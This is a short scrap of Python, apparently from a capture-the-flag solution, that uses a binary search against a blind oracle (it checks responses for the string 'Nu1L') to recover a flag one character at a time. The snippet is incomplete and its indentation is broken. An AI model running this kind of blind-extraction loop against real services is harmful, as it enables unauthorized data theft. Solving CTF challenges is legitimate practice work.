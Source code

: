 ```python
                low = mid + 1
            if 'Nu1L' in r.text:
                high = mid
   
            mid = (low+high)//2

            
            if low == high:
                flag = flag + table[mid-1]
                break
get_flag()
```
